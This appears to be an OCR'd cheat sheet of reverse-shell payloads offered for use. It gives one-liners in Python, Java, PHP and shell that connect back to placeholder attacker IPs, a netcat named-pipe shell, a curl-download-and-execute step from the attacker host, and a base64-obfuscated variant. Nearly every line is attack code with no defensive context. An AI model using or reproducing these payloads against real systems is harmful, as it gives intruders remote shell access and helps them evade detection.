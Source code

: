 python(file)

```Python
#!/usr/bin/env python
import os
import sys
try: 
        os.system("python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"<attacker ip>\",<attacker port>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn(\"/bin/bash\")\'") 
except: 
        print 'ERROR...' 
sys.exit(0) 
```

When using the exploit file to pass command parameters fails

python

```Python
command = "echo '/bin/bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1' > /tmp/revshell.sh && chmod 777 /tmp/revshell.sh && /bin/bash /tmp/revshell.sh"
```

java

```Java
String[] cmdline = { "sh", "-c", "echo 'bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1' > /tmp/revshell.sh && chmod 777 /tmp/revshell.sh && bash /tmp/revshell.sh" }; 
Runtime.getRuntime().exec(cmdline);
```

php(file)

```Php
<?php system(\"nc -e /bin/bash <attacker ip> <attacker port>\"); ?>
```

```Php
<?php exec("/bin/bash -c 'bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1'");?>
```

special cases 1 

```shell
rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <attacker ip> <attacker port> >/tmp/f
```

special cases 2

```shell
# rev.sh
# sh -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1
curl http://<attacker ip>/rev.sh -o /tmp/rev.sh
bash /tmp/rev.sh
```

base64

```shell
echo 'bash -c "bash -i >& /dev/tcp/<attacker ip>/<attacker port> 0>&1"' | base64
echo -n <base64 command string> | base64 -d | bash 
# echo -n cHl0aG9uMyAtYyAnaW1wb3J0IHNvY2tldCxzdWJwcm9jZXNzLG9zO3M9c29ja2V0LnNvY2tldChzb2NrZXQuQUZfSU5FVCxzb2NrZXQuU09DS19TVFJFQU0pO3MuY29ubmVjdCgoIjEyNy4wLjAuMSIsODApKTtvcy5kdXAyKHMuZmlsZW5vKCksMCk7IG9zLmR1cDIocy5maWxlbm8oKSwxKTtvcy5kdXAyKHMuZmlsZW5vKCksMik7aW1wb3J0IHB0eTsgcHR5LnNwYXduKCJzaCIpJw== | base64 -d | bash      
```
